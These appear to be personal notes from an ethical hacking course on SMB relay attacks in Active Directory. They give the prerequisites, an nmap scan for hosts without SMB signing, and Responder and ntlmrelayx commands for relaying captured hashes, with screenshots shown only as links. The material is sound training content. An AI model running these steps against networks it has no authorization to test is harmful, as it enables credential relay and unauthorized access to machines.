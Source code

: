 ___
### What is SMB Relay?
- Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

### Requirements 
- SMB signing must be disabled or not enforced on the target.
- Relayed user credentials must be admin on machine for any real value.

### Identify Hosts Without SMB Signing

```
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025150646.png)

### SMB Relay

Step 1 : Run Responder
```
sudo mousepad /etc/responder/Responder.conf
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025150836.png)

Step 2 : Run Responder
```
sudo responder -I tun0 -dwP
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151048.png)

Step 3 : Set up your relay
```
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151158.png)
Step 4 : An Event Occurs...
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151309.png)

Step 5 : Win
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151426.png)




